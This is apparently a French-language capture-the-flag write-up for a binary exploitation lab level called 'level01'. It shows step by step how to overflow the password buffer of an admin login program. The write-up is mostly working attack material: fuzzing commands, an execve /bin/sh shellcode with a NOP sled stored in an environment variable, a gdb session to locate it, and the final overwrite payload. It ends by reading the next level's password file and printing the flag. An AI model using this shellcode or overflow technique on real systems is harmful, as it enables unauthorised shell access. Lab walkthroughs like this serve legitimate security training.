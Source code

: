 # Level1

On observe que l'executable prend une entre sur l'entre standard

```shell
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: Hello World
verifying username....

nope, incorrect username...
```

On regarde l'assembleur et on remarque qu'il compare notre entre de `Username` a
`dat_wil`. On peut alors utiliser un shellcode car l'entre de `Password` utilise un `strcmp()`

```shell
$ python -c 'print("dat_wil\n" + "A"*79)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

$ python -c 'print("dat_wil\n" + "A"*80)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

Segmentation fault (core dumped)
```

On va mettre notre shellcode dans une variable d'environnement et regarder son adresse

```shell
$ export Shellcode=$(python -c 'print "\x90"*100 +"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"')

$ gdb level01 -q
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.

(gdb) b *main
Breakpoint 1 at 0x80484d0

(gdb) run
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()

(gdb) x/s *((char **)environ)
0xffffd860: "Shellcode=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Phn/shh//bi\211\343P\211\341P\211\342\260\v̀"
```

Assemblons toute les pieces

```shell
$ (python -c 'print("dat_wil\n" + "A"*80 + "\xff\xff\xd8\x80"[::-1])'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
